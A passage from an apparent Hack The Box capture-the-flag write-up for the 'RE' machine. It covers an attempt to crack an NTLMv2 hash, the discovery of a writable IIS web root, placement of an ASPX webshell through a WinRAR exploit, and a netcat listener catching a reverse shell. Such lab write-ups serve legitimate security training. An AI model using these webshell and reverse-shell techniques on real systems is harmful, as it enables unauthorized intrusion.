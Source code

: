 I tried cracking Cam's NTLMv2 hash but I wasn't able to crack it with rockyou.txt.

When I check the web directory, I see that Cam has write access:

```
C:\inetpub>icacls wwwroot
wwwroot RE\coby:(OI)(CI)(RX,W)
        RE\cam:(OI)(CI)(RX,W)
        BUILTIN\IIS_IUSRS:(OI)(CI)(RX)
        NT SERVICE\TrustedInstaller:(I)(F)
        NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
        BUILTIN\Users:(I)(RX)
        BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
        CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

I can place a webshell in the directory using the same Winrar exploit:

![](/assets/images/htb-writeup-re/aspx1.png)

And now I have RCE as `iis apppool\re`

![](/assets/images/htb-writeup-re/aspx2.png)

I'll pop another shell with netcat:

```
# nc -lvnp 5555
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.144.
Ncat: Connection from 10.10.10.144:60328.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\re

c:\windows\system32\inetsrv>
```
